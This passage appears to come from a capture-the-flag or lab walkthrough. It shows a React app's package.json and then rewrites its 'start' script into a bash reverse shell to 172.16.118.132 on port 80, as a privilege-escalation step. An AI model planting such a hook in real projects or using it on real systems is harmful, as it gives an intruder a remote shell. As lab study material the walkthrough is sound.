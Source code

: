 And if we display the contents of the manage package manager file `package.json`:

```
$ cat package.json
{
  "name": "react-multi-page-website",
  "version": "0.1.0",
  "private": true,
  "dependencies": {
    "@testing-library/jest-dom": "^4.2.4",
    "@testing-library/react": "^9.4.0",
    "@testing-library/user-event": "^7.2.1",
    "react": "^16.12.0",
    "react-dom": "^16.12.0",
    "react-router-dom": "^5.1.2",
    "react-scripts": "4.0.3"
  },
  "scripts": {
    "start": "react-scripts start",
    "build": "react-scripts build",
    "test": "react-scripts test",
    "eject": "react-scripts eject"
  },
  "eslintConfig": {
    "extends": "react-app"
  },
  "browserslist": {
    "production": [
      ">0.2%",
      "not dead",
      "not op_mini all"
    ],
    "development": [
      "last 1 chrome version",
      "last 1 firefox version",
      "last 1 safari version"
    ]
  }
}
```

Checking the file, we see that there is a json object `scripts`, which defines what commands run when the application starts, gets built etc. We will focus on the `start` script. If we can change this to a reverse shell command, we could potentially escalate.

We can't edit the file as `ellie` so let's exit and edit as `www-data`

```
"scripts": {
    "start": "bash -c 'bash -i >& /dev/tcp/172.16.118.132/80 0>&1'",
    "build": "react-scripts build",
    "test": "react-scripts test",
    "eject": "react-scripts eject"
  },
```
